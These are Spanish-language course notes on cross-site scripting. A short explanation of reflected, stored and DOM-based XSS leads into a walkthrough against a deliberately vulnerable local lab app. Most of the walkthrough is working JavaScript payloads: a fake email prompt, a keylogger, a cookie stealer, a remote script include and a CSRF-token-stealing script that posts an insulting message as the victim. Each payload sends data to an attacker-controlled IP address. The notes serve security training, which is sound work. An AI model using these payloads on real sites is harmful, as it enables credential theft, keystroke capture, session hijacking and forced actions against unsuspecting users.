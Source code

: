 
----
- Tags : #Cross #Scrioting #XSS #PaginasWEb #Vulnerabilidades 
-----
Una vulnerabilidad **XSS** (**Cross-Site Scripting**) es un tipo de vulnerabilidad de seguridad informática que permite a un atacante ejecutar código malicioso en la página web de un usuario sin su conocimiento o consentimiento. Esta vulnerabilidad permite al atacante robar información personal, como nombres de usuario, contraseñas y otros datos confidenciales.

En esencia, un ataque XSS implica la inserción de código malicioso en una página web vulnerable, que luego se ejecuta en el navegador del usuario que accede a dicha página. El código malicioso puede ser cualquier cosa, desde scripts que redirigen al usuario a otra página, hasta secuencias de comandos que registran pulsaciones de teclas o datos de formularios y los envían a un servidor remoto.

Existen varios tipos de vulnerabilidades XSS, incluyendo las siguientes:

> **Reflejado** (**Reflected**): Este tipo de XSS se produce cuando los datos proporcionados por el usuario **se reflejan en la respuesta** HTTP sin ser verificados adecuadamente. Esto permite a un atacante inyectar código malicioso en la respuesta, 
> que luego se ejecuta en el navegador del usuario.

 >**Almacenado** (**Stored**): Este tipo de XSS se produce cuando un atacante **es capaz de almacenar código malicioso** en una base de datos o en el servidor web que aloja una página web vulnerable. Este código se ejecuta cada vez que se carga la página.
 
 >**DOM-Based**: Este tipo de XSS se produce cuando el código malicioso **se ejecuta en el navegador del usuario a través del DOM** (Modelo de Objetos del Documento). Esto se produce cuando el código JavaScript en una página web modifica el DOM en una forma que es vulnerable a la inyección de código malicioso.

Los ataques XSS pueden tener graves consecuencias para las empresas y los usuarios individuales. Por esta razón, es esencial que los desarrolladores web implementen medidas de seguridad adecuadas para prevenir vulnerabilidades XSS. Estas medidas pueden incluir la validación de datos de entrada, la eliminación de código HTML peligroso, y la limitación de los permisos de JavaScript en el navegador del usuario.

A continuación, se proporciona el proyecto de Github correspondiente al laboratorio que nos estaremos montando para poner en práctica la vulnerabilidad XSS:

- **secDevLabs**: [https://github.com/globocom/secDevLabs](https://github.com/globocom/secDevLabs)

# Iniciamos con la practica creando nuestro laboratorio

- Primero clonamos nuestro archivo GITHUB
```
git clone https://github.com/globocom/secDevLabs
```
-  Entraremos en /home/k/a/secDevLabs/owasp-top10-202/a3/gossip-world

- Luego desplegamos nuestro docker con
```
make install
```
- Nos creamos un usuario en el localhost:10007
- Creamos archivos con barios codigos html o javascript
- Creamos un archivo <script>list("XSS")</script> en la pagina web
- Luego creamos un archivo nvim 
```
<script>
	var email = prompt("Por favor, introduce tu correo electronico para visualizar el post", "example@example.com");
	
	if (email == null || email == ""){
       alert("Es necesario introducir un correo valido para visualizar el post");
    } else {
      fetch("http://192.168.111.45/?email=" + email);
    }
</script>
```

- Nos creamos el nuevo archivo en el localhost con el script en el comentario y luego visualizamos los datos ingresados por el puerto 80
```
python3 -m http.server 80
```

- Tambien lo podemos hacer con varias opciones como, solicitar usuario y contraseña con html o crear un **Keylogger** como el siguiente ejemplo
```
nvim keylogger.js
```

```
<script>
        var k = "";
        document.onkeypress = function(e){
                e = e || window.event;
                k += e.key;
                var i = new Image();
                i.src = "http://192.168.72.130/" + k;
        };      
</script>
```
- Si nos ponemos a la escucha con python con el siguiente comando podríamos observar de mejor manera el Keylogger
```
python3 -m http.server 80 2>&1 | grep -oP 'GET /\k[^,*\s]+'
```

- Ahora podemos crear una pagina que direccione a otra pagina
```
<script>
window.location.href = "https://hack4u.io";
</script>
```

- También podemos hacer que cuando se loguee, se este logueando en otra pagina
```
var request = new XMLHttpRequest();
request.open('GET', 'http://192.168.72.130/?cookie=' + document.cookie);
request.send();
```
- Hay que ingresar el script en la creación de pagina en el localhost **"<script src="http://192.168.111.45/test.js"></script>"**
- Nos ponemos en escucha con el python3 por el puerto 80 eh ingresamos a la pagina creada con el script de arriba
- Una vez robada la cookie de sesión se podría realizar un **cookie hijacking**

# Ahora intentaremos hacer otro ejercicio de una manera mas peculiar
- Si quisiera que algún trabajador de la empresa publique de manera automática al ingresar a un post un post de odio o parecido
- Para eso lo primero que haríamos seria abrir nuestro burpsuite e ingresamos desde el localhost usando la herramienta foxyproxy
- Si queremos tramitar por POST tenemos que encontrar un CSRF token valido para incorporarlo 

- Ahora crearemos un archivo para lanzar una petición a la pagina y almacenar la respuesta en una variable 
```
nvim pwned.js
```

```
var domain = "http://localhost:10007/newgossip";
var req1 = new XMLHttpRequest();
req1.open('GET', domain, false);
req1.send();

var response = req1.responseText;
var req2 = new XMLHttpRequest();
req2.open('GET', 'http://192.168.111.45/?response=' + btoa(response));
req2.send();
```
  - Antes de esto debemos crear nuestro script en la pagina del localhost
```
<script src="http://192.168.72.130/pwned.js"></script>
```
- Entramos a la pagina creada desde el usuario test para obtener la response en **base64** y luego hacemos un 
```
echo -n "resultado" | base64 -d; echo
```
- Este comando nos permitirá encontrar el csrf token de sesion
- Una vez testiado el comando modificamos nuestro archivo para mejorar el resultado
```
var domain = "http://localhost:10007/newgossip";
var req1 = new XMLHttpRequest();
req1.open('GET', domain, false);
req1.withCredentials = true;
req1.send();

var response = req1.responseText;
var parser = new DOMParser();
var doc = parser.parseFromString(response, 'text/html');
var token = doc.getElementsByName("_csrf_token")[0].value;

var req2 = new XMLHttpRequest();
ver data = "title=Mi%20jefe%20es%20un%20cabron&subtitle=JEFE%20CABRONASO&text=Odio%20,%20cabron&_csrf_token=" + token;
req2.open('POST', 'http://localhost:10007/newgossip', false);
req2.withCredentials = true;
req2.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
req2.send(data);
```

>**Tips o datos:**
- El **prompt("Introduce tu correo, a@a.com" );** Muestra un mensaje de alerta pidiendo su correo
- La pagina https://jwt.io nos permite observar  jason wen tocken
- se debe inhabilitar la opción de "httpOnly" así podrán capturar la cookie en su servidor.
